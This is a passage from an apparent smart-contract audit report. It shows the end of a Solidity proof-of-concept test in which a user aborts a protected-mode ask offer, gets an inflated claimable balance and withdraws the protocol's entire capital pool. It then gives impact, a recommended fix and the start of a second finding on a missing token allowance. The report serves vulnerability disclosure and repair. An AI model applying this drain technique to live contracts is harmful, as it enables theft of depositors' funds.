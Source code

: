 ```Solidity
        address offer2Addr = GenerateAddress.generateOfferAddress(1);
        uint256 balanceOfCapitalPoolBefore = mockUSDCToken.balanceOf(address(capitalPool));
        uint256 balanceOfUserBefore = mockUSDCToken.balanceOf(user);
        preMarktes.abortAskOffer(stock1Addr, offer2Addr);
        //Here the claimable balance of the user is 4 however it should be 3 since the user only send 3 tokens 
        assertEq(tokenManager.userTokenBalanceMap(user, address(mockUSDCToken), TokenBalanceType(4)),4);
        tokenManager.withdraw(address(mockUSDCToken), TokenBalanceType(4));
        vm.stopPrank();
        uint256 balanceOfCapitalPoolAfter = mockUSDCToken.balanceOf(address(capitalPool));
        uint256 balanceOfUserAfter = mockUSDCToken.balanceOf(user);
        //assert that the user drained the protocol
        //The user drained all the protcol even the wei that was here before even he do anything
        assertEq(balanceOfCapitalPoolAfter, 0);
        assertEq(balanceOfUserAfter, balanceOfUserBefore + balanceOfCapitalPoolBefore);
    }
```

## Impact

The user can use this to drain all the protocol and any use that aboard an ask type in protected mode can overestimate his balance 

## Tools Used

Echidna

## Recommendations

I thing that the protocol in protected mode should use the \_collateral that the sender used when he listed the offer as it is specified in the documentation: 

```Solidity
  if (makerInfo.offerSettleType == OfferSettleType.Protected) {
            uint256 transferAmount = OfferLibraries.getDepositAmount(
                offerInfo.offerType, _collateralRate, _amount, true, Math.Rounding.Ceil
            );
```

## <a id='H-02'></a>H-02. The withdraw function cannot operate if the token is not the native token due to a lack of allowance.            



## Summary

When a user has a claimable balance, he call the `withdraw` function (L-137) in the tokenManager, which transfers the tokens from the capital pool to the msg.sender and calls the approve function in the capital pool, allowing the capital pool to approve the token manager to transfer the tokens from the capital pool to the sender. However, this call will consistently revert if the token is not the native token because the token manager don’t approve the token before doing the call.
